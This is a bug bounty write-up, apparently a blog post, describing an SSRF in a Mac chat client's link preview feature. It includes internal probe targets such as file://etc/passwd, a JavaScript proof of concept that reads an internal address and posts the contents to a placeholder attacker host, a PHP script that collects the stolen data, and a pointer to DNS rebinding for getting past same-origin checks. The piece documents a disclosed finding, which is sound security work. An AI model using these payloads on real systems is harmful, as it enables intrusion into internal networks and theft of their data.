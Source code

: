 ```yaml
---
layout: post
title: "BugBounty | A Simple SSRF"
tags: [bugbounty, SSRF]
comments: true
---
```


I was working on a private program which i cannot disclose

First of all, its web assets have several subdomains. After I tested it for a while, I plan to look at the mac client.

The mac client has an chat interface where i found a SSRF.

The following is the whole process

After installation, sign up for login, then I see a chat interface.

Send a URL

![Image failed to load](https://raw.githubusercontent.com/Jinone/123/master/_posts/image1/1.png)
It seems to preview the url, return a title and favicons

I use my server ip to test. Then received

![Image failed to load](https://raw.githubusercontent.com/Jinone/123/master/_posts/image1/t3.png)
Found that is the browser's ua header

Then I tested it http://127.0.0.1 https://127.0.0.1 file://etc/passwd ....

Tested a lot of common internal ip

But

![Image failed to load](https://raw.githubusercontent.com/Jinone/123/master/_posts/image1/t1.png)
![Image failed to load](https://raw.githubusercontent.com/Jinone/123/master/_posts/image1/t2.png)
No effect

Then I tried the subdomain brute force, as well as some asset discovery sites to find internal ip

Until there is an ip

![Image failed to load](https://raw.githubusercontent.com/Jinone/123/master/_posts/image1/t4.png)
Seems to be successful

Then I quickly submitted the vulnerability

But

![Image failed to load](https://raw.githubusercontent.com/Jinone/123/master/_posts/image1/t5.png)
As written above, we can only get a very small amount of content.

After testing, I found that it will also execute js because it is browser ua

  
 
    <html><p id='d1'></p>
    <script>
        function get(url) {
            try {
                var req = new XMLHttpRequest();
                req.open('GET', url, false);
                req.send(null);
                if(req.status == 200)
                    return req.responseText;
            } catch(err) {
            }
            return null;
        }
        var role = get('https://google.com');
        document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
    
![Image failed to load](https://raw.githubusercontent.com/Jinone/123/master/_posts/image1/t6.png)

Can successfully get Google returns the content length

Does not seem to be blocked by Same Origin Policy

Then we can get any internal network content

**POC**

xxx.php

    <?php
    file_put_contents("save.txt", $_POST['cc'] . "\n", FILE_APPEND);
    ?>
    
poc.html

    <html><p id='d1'></p>
    <script>
    function get(url) {
        try {
            var req = new XMLHttpRequest();
            req.open('GET', url, false);
            req.send(null);
            if(req.status == 200)
                return req.responseText;
        } catch(err) {
        }
        return null;
    }
    function post(url,content){
        var req = new XMLHttpRequest();
        req.open("POST", url, true);
        var formData = new FormData();
        formData.append("cc", content);
        req.send(formData);
    }
    var role = get('https://Internal ip');
    post('https://xxxxxxxxxxx.com/xxx.php',escape(role));
    document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
Then check save.txt (You can also use the Burp Collaborator client)

![Image failed to load](https://raw.githubusercontent.com/Jinone/123/master/_posts/image1/t8.png)
Url decoding

![Image failed to load](https://raw.githubusercontent.com/Jinone/123/master/_posts/image1/t9.png)

We are successful in getting the full content of any address on the internal network.

**If Same Origin Policy blocks**

Bypass Same Origin Policy with DNS-rebinding to retrieve  Internal server .

![Image failed to load](https://raw.githubusercontent.com/Jinone/123/master/_posts/image1/t23.png)

Details from https://github.com/mpgn/ByP-SOP

Finally 
![Image failed to load](https://raw.githubusercontent.com/Jinone/123/master/_posts/image1/t11.png)

I got the highest bounty reward for this private project.

![Image failed to load](https://raw.githubusercontent.com/Jinone/123/master/_posts/image1/t22.png)

